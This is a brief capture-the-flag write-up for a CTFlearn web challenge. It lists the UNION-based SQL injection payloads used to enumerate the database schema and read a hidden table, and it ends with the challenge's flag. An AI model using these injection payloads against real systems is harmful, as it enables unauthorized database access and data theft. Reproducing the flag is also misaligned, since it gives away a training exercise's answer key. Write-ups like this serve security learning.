

## Inj3ction Time
The main idea finding the flag is get flag using progressive SQL exploits to get into database.

#### Step-1:
After I visited https://web.ctflearn.com/web8/, the following is the list of commands that I input one by one to get the flag. Its progressive and you have to do it by checking corresponding tables and corresponding columns simultaneously.

#### Step-2:
Commands:

```sql
1 union select 1,2,3,4 #
1 union select table_name,2,3,4 from information_schema.tables #
```

After these, we find `w0w_y0u_f0und_m3` table to access it.

#### Step-3:

```sql
1 union select table_name,column_name,3,4 from information_schema.columns #
```
This gives us a column called `f0und_m3`.

This gives us last command.

```sql
1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3 #
```



#### Step-4:
Finally the flag becomes: 
`abctf{uni0n_1s_4_gr34t_c0mm4nd}`